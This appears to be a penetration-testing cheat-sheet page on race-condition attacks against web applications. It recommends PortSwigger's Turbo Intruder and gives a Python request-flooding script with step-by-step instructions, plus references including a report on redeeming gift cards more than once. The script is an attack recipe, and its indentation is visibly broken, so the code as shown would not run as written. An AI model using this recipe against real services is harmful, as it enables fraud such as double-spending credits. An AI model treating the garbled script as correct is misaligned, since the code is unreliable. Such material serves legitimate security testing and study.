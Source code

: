 # Race Condition

> Race conditions may occur when a process is critically or unexpectedly dependent on the sequence or timings of other events. In a web application environment, where multiple requests can be processed at a given time, developers may leave concurrency to be handled by the framework, server, or programming language. 

## Summary

* [Tools](#tools)
* [Turbo Intruder Examples](#turbo-intruder-examples)
* [References](#references)

## Tools

* [Turbo Intruder - a Burp Suite extension for sending large numbers of HTTP requests and analyzing the results.](https://github.com/PortSwigger/turbo-intruder)

## Turbo Intruder Examples

1. Send request to turbo intruder
2. Use this python code as a payload of the turbo intruder
    ```python
    def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=30,
                            requestsPerConnection=30,
                            pipeline=False
                            )

    for i in range(30):
        engine.queue(target.req, i)
            engine.queue(target.req, target.baseInput, gate='race1')


        engine.start(timeout=5)
    engine.openGate('race1')

        engine.complete(timeout=60)


    def handleResponse(req, interesting):
        table.add(req)
    ```
3. Now set the external HTTP header x-request: %s - :warning: This is needed by the turbo intruder
4. Click "Attack"


## References

* [Race Condition allows to redeem multiple times gift cards which leads to free "money" - @muon4](https://hackerone.com/reports/759247)
* [Turbo Intruder: Embracing the billion-request attack - James Kettle | 25 January 2019](https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack)
* [Race Condition Bug In Web App: A Use Case - Mandeep Jadon](https://medium.com/@ciph3r7r0ll/race-condition-bug-in-web-app-a-use-case-21fd4df71f0e)